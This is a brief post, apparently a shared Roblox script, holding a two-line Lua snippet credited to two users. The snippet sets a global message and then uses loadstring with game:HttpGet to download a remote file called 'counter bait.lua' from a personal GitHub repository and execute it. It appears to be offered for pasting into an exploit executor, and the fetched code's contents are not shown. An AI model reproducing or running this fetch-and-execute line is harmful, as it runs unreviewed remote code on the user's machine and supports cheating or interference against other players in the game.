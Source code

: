 ```
shared.message = 'Simon says counter.';
loadstring(game:HttpGet('https://raw.githubusercontent.com/Selunariorium/Dex/refs/heads/main/counter%20bait.lua'))
```

> credits to maxlasertech for the code
> idea: Selunar